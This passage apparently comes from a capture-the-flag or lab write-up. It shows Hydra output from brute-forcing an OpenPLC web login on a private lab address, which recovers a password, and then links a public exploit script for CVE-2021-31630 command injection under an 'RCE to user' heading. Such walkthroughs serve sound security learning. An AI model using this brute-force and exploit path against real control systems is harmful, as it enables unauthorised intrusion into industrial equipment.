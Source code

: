 ```
[DATA] attacking http-post-form://192.168.56.117:9090/login:username=^USER^&password=^PASS^:F=Bad credentials! Try again
[9090][http-post-form] host: 192.168.56.117   login: openplc   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-12 22:09:57
```

## RCE to user

- [thewhiteh4t/cve-2021-31630: Python script for exploiting command injection in Open PLC Webserver v3](https://github.com/thewhiteh4t/cve-2021-31630)

![](./images/image-242.png)

![](./images/image-243.png)
